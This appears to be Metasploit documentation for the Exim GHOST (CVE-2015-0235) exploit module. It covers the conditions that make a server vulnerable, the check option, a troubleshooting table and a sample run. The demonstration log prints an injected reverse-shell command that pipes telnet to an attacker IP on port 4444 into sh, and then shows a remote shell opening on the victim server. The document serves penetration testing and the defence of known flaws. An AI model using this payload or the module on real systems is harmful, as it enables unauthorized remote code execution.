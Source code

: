The Exim GHOST buffer overflow is a vulnerability found by researchers from Qualys. On March 17th 2015, Qualys released an exploit module demonstrating the exploitability of this flaw, which is now exim_gethostbyname_bof.rb in Metasploit Framework.

When Qualys released the exploit, it included a lot of technical details for debugging and usage purposes. We decided to put all that here in a more readable format.

## What is "GHOST"

This is a heap based buffer overflow found in GNU C Library's **g**et**host**byname functions since glibc-2.2 (November 10, 2000), which is part of the Linux operating system, such as: Debian, Red Hat, CentOS, and Ubuntu.
## Exploitable Requirements
**On the server-side (victim):**

* glibc-2.6 - glibc-2.17: The exploit depends on the newer versions' fd_nextsize (a member of the malloc_chunk structure) to remotely obtain the address of Exim's smtp_cmd_buffer in the heap.
* Exim server. The first exploitable version is Exim-4.77, maybe older. The exploit depends on the newer versions' 16-KB smtp_cmd_buffer to reliably set up the heap as described in the advisory.
* The Exim server also must enable helo_try_verify_hosts or helo_verify_hosts in the /etc/exim4/exim4.conf.template file. The "verify = helo" ACL might be exploitable too, but the attack vector isn't as reliable, therefore not supported by the module.

For testing purposes, if you need to find a vulnerable system, you can try Debian 7 (it should come with an exploitable Exim server):
http://ftp.cae.tntech.edu/debian-cd/dvd/debian-7.7.0-i386-DVD-1.iso

**On the attacker's side:**

* The attacker's IPv4 address must have both forward and reverse DNS entries that match each other (Forward-Confirmed reverse DNS).

## The check method

The GHOST exploit module comes with a check method. It is explicit, which means the check will actually try to trigger the vulnerability to determine if the host is vulnerable or not.

The check is also enforced when you use the "exploit" or "run" command. However, you can turn off the enforcement by setting the ```FORCE_EXPLOIT``` datastore option to true. For example:

```
set FORCE_EXPLOIT true
run
```

## Troubleshooting

If the exim_gethostbyname_bof.rb module has failed on you:

| Failure  | Explanation |
| -------- | ----------- |
| bad SENDER_HOST_ADDRESS (nil) | The SENDER_HOST_ADDRESS datastore option was not specified |
| bad SENDER_HOST_ADDRESS (not in IPv4 dotted-decimal notation) | The SENDER_HOST_ADDRESS datastore option was specified, but not in IPv4 dotted-decimal notation |
| bad SENDER_HOST_ADDRESS (helo_verify_hosts) | The SENDER_HOST_ADDRESS datastore option does not match the IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim). |
| bad SENDER_HOST_ADDRESS (no FCrDNS) | the IPv4 address of the SMTP client (Metasploit) has no Forward-Confirmed reverse DNS. |
| not vuln? old glibc? (no leaked_arch) | the remote Exim server is either not vulnerable, or not exploitable (glibc versions older than glibc-2.6 have no fd_nextsize member in their malloc_chunk structure). |
| NUL, CR, LF in addr? (no leaked_addr) | Exim's heap address contains bad characters (NUL, CR, LF) and was therefore mangled during the information leak; this exploit is able to reconstruct most of these addresses, but not all (worst-case probability is ~1/85, but could be further improved). |
| Brute-force SUCCESS" followed by a nil reply, but no shell | the remote Unix command was executed, but spawned a bind-shell or a reverse-shell that failed to connect (maybe because of a firewall, or a NAT, etc). |
| Brute-force SUCCESS" followed by a non-nil reply, and no shell | The remote Unix command was executed, but failed to spawn the shell (maybe because the setsid command doesn't exist, or awk isn't gawk, or netcat doesn't support the -6 or -e option, or telnet doesn't support the -z option, etc). |

## Module Demonstration

When everything is dialed in correctly, a successful attack should look like the following:

```
msf exploit(exim_gethostbyname_bof) > run
[*] Started reverse double handler
[*] Trying information leak...
[!] {:heap_shift=>736}
[!] {:write_offset=>128, :error=>"503 sender not yet given"}
[!] {:write_offset=>136, :error=>"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"}
[!] {:error=>["\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given", "", "503 \x89\x10", "177", "177\\177\\177", "vJN\\177\\177\\177\\177"]}
[!] {:leaked_arch=>"x86"}
[!] {:count=>{"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"=>8, "hF\xFE\xB7hF\xFE\xB7er not yet given"=>2}}
[+] Successfully leaked_arch: x86
[+] Successfully leaked_addr: b7fda760
[*] Trying code execution...
[!] ${run{/usr/bin/env setsid /bin/sh -c "sh -c '(sleep 4011|telnet 192.168.1.64 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.64 4444 >/dev/null 2>&1 &)'"}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>21}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>25}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>20}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>8}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>6}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>12}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>19}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>23}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>18}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>14}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>3}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>28}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd02a1", :offset=>26}
[!] {:reply=>{:code=>"550", :lines=>["550 sikVtqGxFOjCBOWTbDupmIuJRmLmShFNqqUYRRPUolyxPmmgLCenEzConuVGWafjgycyRfXulGNwmAOvkqZkGobMyUIMPojZsaziCjVVyvabOrcieEWrLZSgnCCXHeXjIzGGfUALAIubgBEmsKsSWSGa\r\n"]}}
[+] Brute-force SUCCESS
[+] Please wait for reply...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qaNpBmRBEus9XoVZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "qaNpBmRBEus9XoVZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.1.64:4444 -> 192.168.1.166:58859) at 2015-03-19 03:36:52 -0500
[!] {:reply=>nil}
id
uid=104(Debian-exim) gid=112(Debian-exim) groups=112(Debian-exim)
```

## References:

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-0235
* https://community.qualys.com/blogs/laws-of-vulnerabilities/2015/03/17/ghost-remote-code-execution-exploit
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.171218720.101498705.1426692159
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.136230833.101498705.1426692159
